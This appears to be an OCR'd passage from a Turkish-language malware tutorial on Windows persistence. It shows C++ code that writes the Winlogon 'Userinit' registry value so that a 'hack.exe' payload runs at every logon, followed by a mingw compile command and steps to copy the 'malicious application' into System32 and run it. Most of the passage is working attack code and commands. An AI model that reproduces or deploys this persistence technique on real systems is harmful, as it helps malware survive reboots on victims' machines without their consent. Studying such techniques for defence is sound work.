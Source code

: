 ```cpp
  Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" 
    // /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Userinit", 0, 
    REG_SZ, (unsigned char*)ui, strlen(ui));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Bu nedenle, kalıcılıktan sorumlu olan programı derleyelim:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/58/2022-06-12_14-18.png){width="80%"}    

### demo

Ve her şeyi çalışırken görelim. Öncelikle, kayıt defteri anahtarlarını kontrol edin:   

```powershell
req query \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" \
/s
```

![pers](./images/58/2022-06-12_14-23.png){width="80%"}    

Kötü amaçlı uygulamayı `C:\Windows\System32\` dizinine kopyalayıp ve çalıştıralım:

```powershell
.\pers.exe
```

![pers](./images/58/2022-06-12_14-41.png){width="80%"}    
